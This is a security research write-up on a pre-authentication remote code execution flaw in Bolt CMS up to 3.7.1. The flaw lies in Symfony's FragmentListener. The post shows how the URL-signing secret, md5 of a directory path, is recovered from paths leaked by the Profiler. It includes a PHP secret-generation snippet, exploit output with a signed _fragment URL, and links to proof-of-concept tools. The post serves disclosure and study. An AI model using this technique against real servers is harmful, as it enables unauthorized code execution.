





# C1110: Bolt CMS <= 3.7.1, Profiler = RCE (pre-auth)

Today [@cfreal_](https://twitter.com/cfreal_) published an article outlining the dangerousness introduced by the use of Edge Side Includes ([ESI](https://symfony.com/doc/current/http_cache/esi.html)) within the Symfony framework. Indeed, it is possible for an attacker with knowledge of the secret used to sign URLs to obtain a code execution and this in a non-authenticated way on all applications using the Symfony `FragmentListener`.

I'm not going to spend a lot of time defining what an ESI is because it is very well done in @cfreal_'s article, I will only present how it is possible and this in an automated way to get a code execution on all Bolt CMS offering the Profiler tool to non authenticated users.

## Obtaining the secret

Bolt CMS is based on the Silex and Symfony frameworks even if Silex is itself based on Symfony as explained on their website.
> The PHP micro-framework based on the Symfony Components



According to the Silex [documentation](https://silex.symfony.com/doc/2.0/providers/http_fragment.html), the secret used to sign URLs is stored in the `uri_signer.secret` parameter. Let's go into the code and find out how it is generated.

```
▶ grep -R uri_signer ./vendor 
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:            $renderer = new HIncludeFragmentRenderer(null, $app['uri_signer'], $app['fragment.renderer.hinclude.global_template'], $app['charset']);
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:            return new FragmentListener($app['uri_signer'], $app['fragment.path']);
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:        $app['uri_signer'] = $app->share(function ($app) {
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:            return new UriSigner($app['uri_signer.secret']);
./vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php:        $app['uri_signer.secret'] = md5(__DIR__);
./vendor/silex/silex/doc/providers/http_fragment.rst:* **uri_signer.secret**: The secret to use for the URI signer service (used
```

As it can be seen from the above output, the secret is generated as follows:

File: <span style="color:red">\<ROOT\>/vendor/silex/silex/src/Silex/Provider/HttpFragmentServiceProvider.php</span>
```php

...

$app['uri_signer.secret'] = md5(__DIR__);

...

```

Due to the way the secret is generated, it is possible to obtain the secret if you know the path of the folder on the file system. Several solutions are then offered to us:

- Brute-force the directory location (worst case scenario).
- Find a Full Path Disclosure vulnerability (might be possible).
- Use the features provided by the Profiler (solution that will be used for our POC).

In case the Profiler is enabled for non-authenticated users:<br>
When processing a request, if an exception is thrown, then the request's stacktrace and additional information are returned in the server response as it is possible to see below.





We now have the prefix of the path `/var/www/html/projects/project_2/public/`, but as we already had the suffix `<ROOT>/vendor/silex/silex/src/Silex/Provider`, we are able to obtain the complete path and therefore able to calculate the secret.

File: <span style="color:red">gen.php</span>
```php
<?php
    $path = "/var/www/html/projects/project_2/vendor/silex/silex/src/Silex/Provider";
    $secret = md5($path);
    echo $secret;
?>
```

```
▶ php gen.php
0894117c78a7947194909dd8ae8de30a
```

## Exploit

Based on cfreal_'s work, we are able to produce a generic exploit that automates the exploitation of the Symfony FragmentListner as well as an exploit dedicated to bolt CMS when it offers the Profiler to non-authenticated users.

```
▶ python rce.py http://172.18.0.3/projects/project_2/public/_fragment
[*] http://172.18.0.3/projects/project_2/public/_fragment detected
[*] Bolt detected with Profiler: extracting secret
[*] secret: 0894117c78a7947194909dd8ae8de30a
[ ] Using _controller with PHP's functions ...
[*] Exploit succeed:
	http://172.18.0.3/projects/project_2/public/_fragment?_path=_controller%3Dphpinfo%26what%3D-1&_hash=8BVsUQyC8D47ZCc%2BPXeCWiFnxD3eJH2zfUw87aeuec0%3D
```




Credit goes to [@cfreal_](https://twitter.com/cfreal_).

- [POC dedicated to Bolt CMS](https://github.com/therealcoiffeur/therealcoiffeur.github.io/tree/master/tools/Bolt/FragmentListener)
- [Generic POC for Symfony](https://github.com/therealcoiffeur/therealcoiffeur.github.io/tree/master/tools/Symfony/FragmentListener)

